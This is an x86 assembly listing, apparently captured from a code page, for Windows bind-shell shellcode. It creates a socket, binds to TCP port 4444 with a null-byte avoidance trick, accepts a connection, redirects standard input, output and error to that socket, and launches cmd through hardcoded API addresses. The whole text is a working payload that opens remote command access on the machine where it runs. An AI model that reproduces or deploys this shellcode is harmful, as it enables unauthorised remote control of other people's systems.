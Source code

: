 ```assembly
push eax             ; Arg dwFlags = 0
push eax             ; Arg g = 0
push eax             ; Arg lpProtocolInfo = 0
push eax             ; Arg protocol = IPPROTO_TCP
push 0x1             ; Arg type = SOCK_STREAM
push 0x2             ; Arg af = AF_INET
mov eax, 0x71AB8B6A
call eax
mov ebx, eax         ; Store WSASocket() handler

; bind(SOCKET s, const sockaddr *addr, int namelen)
xor eax, eax
push eax             ; Creating space on stack
mov eax, 0x5c110102 
dec ah               ; eax: 0x5c110102 -> 0x5c110002 (Mitigating null byte)
push eax             ; Store the portnr on stack
mov eax, esp         ; Store pointer to the portnr
push 0x10            ; Arg namelen = 16 bytes
push eax             ; Arg *addr = eax -> 0x5c110002 (5c11 = 4444, 0002 = INET_AF)
push ebx             ; Arg s = WSASocket() handler
mov eax, 0x71AB4480
call eax

; listen(SOCKET s, int backlog)
push 0x1             ; Arg backlog = 1         
push ebx             ; Arg s = WSASocket() handler
mov eax, 0x71AB8CD3       
call eax

; accept(SOCKET s, sockaddr *addr, int *addrlen)      
xor eax, eax
push eax             ; Arg addrlen = 0
push eax             ; Arg *addr = 0
push ebx             ; Arg s = WSASocket() handler
mov eax, 0x71AC1040
call eax
mov ebx, eax         ; Store accept() handler

; SetStdHandle(_In_ DWORD nStdHandle, _In_ HANDLE hHandle)
mov edx, 0x7c81d363

push ebx             ; Arg hHandle = accept() handler
push 0xfffffff6      ; Arg nStdHandle = -0A (STD_INPUT)
call edx
          
push ebx             ; Arg hHandle = accept() handler
push 0xfffffff5      ; Arg nStdHandle = -0B (STD_OUTPUT)
call edx
          
push ebx             ; Arg hHandle = accept() handler          
push 0xfffffff4      ; Arg nStdHandle = -0C (STD_ERROR)
call edx

; system(const char *command)
mov DWORD [esp-0x5], 0x646d6341   ; Store string "Acmd" 5 bytes from top of stack
lea eax, [esp-0x4]                ; Store pointer to the string "cmd\0" in eax
lea esp, [esp-0x4]                ; Manually update esp
push eax                          ; Arg *command = eax -> "cmd"
mov eax, 0x77c293c7
call eax
```
